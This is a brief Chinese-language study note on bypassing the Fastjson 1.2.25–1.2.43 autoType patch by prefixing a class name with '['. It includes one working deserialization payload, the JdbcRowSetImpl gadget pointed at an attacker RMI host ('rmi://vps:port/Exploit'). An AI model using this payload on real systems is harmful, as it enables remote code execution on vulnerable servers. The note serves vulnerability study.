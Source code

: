 # Fastjson1.2.25-1.2.43补丁绕过

首先看看他们是怎么修复的，连续出现两个`L`就抛出异常![](img/1.png)

给出payload

```Java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://vps:port/Exploit", "autoCommit":true}
```

官方只修复了`L;`但是忽视了`[`，可以看到`DefaultJSONParser`下的`parseArray`

当双引号后面不是`[`会报错

![](img/2.png)

后面这里我也不太懂，还是对这个框架整体不太熟悉

![](img/3.png)